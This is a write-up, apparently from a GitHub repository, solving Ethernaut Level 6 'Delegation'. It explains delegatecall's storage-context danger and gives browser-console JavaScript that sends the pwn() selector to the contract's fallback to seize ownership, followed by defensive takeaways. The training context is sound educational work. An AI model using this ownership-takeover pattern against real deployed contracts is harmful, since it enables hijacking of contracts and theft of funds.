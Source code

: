 <div align="center">

<img src="../assets/levels/6-delegation.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 6 - Delegation</strong></h1>

</div>

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Objectif](#objectif)
- [The hack](#the-hack)
  - [Example](#example)
- [Solution](#solution)
- [Takeaway](#takeaway)
- [Reference](#reference)

## Objectif

<img src="../assets/requirements/6-delegation-requirements.webp" width="800px"/>

## The hack

This level want us to understand the danger of using Delegate calls in a smart contract. [Delegate Calls](https://solidity-by-example.org/delegatecall/) are a powerful tool that allows a contract to delegate a function call to another contract. This is a very useful feature when building upgradable contracts, but it can also be very dangerous if not used correctly.

Basically, a delegate call is a low-level function that allows another contract to execute a function using the storage of the calling contract. This means that the delegate contract can modify the state of the calling contract.

### Example

> If `contractA` executes `delegatecall` to `contractB`, `contractB`'s code is executed with `contractA`'s storage, `msg.sender` and `msg.value`.

In this Ethernaut level, the `Delegation` contract (contractA in the previous example) has a `fallback` function that delegates the call to the `Delegate` contract (contractB).

```javascript
fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
```

By using a `delegatecall` to the `pwn` function, we will update the owner of the `Delegation` contract.

> NOTE: The storage slot order also plays an important role when using delegate calls. But will we explore this in the next levels. Here, since both contract only have one state variable, we don't need to worry about it.

## Solution

(In the browser's console)

1. Let's start by getting the selector of the `pwn()` function:

```javascript
const pwnSelector = web3.utils.keccak256("pwn()").slice(0, 10);
```

2. Then, call the `Delegation` contract's `fallback` function with the `pwn()` function selector:

```javascript
/**
 * @param {string} from - Your wallet address.
 * @param {string} to - Delegation instance address.
 * @param {string} data - The selector of the pwn() function: "0xdd365b8b".
 */
await web3.eth.sendTransaction({
  from: player,
  to: instance,
  value: "0",
  data: pwnSelector,
});
```

3. You can call the `owner()` function to check if the hack was successful:

```javascript
await contract.owner();
```

## Takeaway

- Use extreme caution when using delegate calls in your smart contracts.
- Make sure to understand the implications of using delegate calls and the potential security risks.
- <b>Delegate calls should not accept untrusted inputs.</b>

## Reference

Parity Wallet Hack: https://blog.openzeppelin.com/on-the-parity-wallet-multisig-hack-405a8c12e8f7/

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
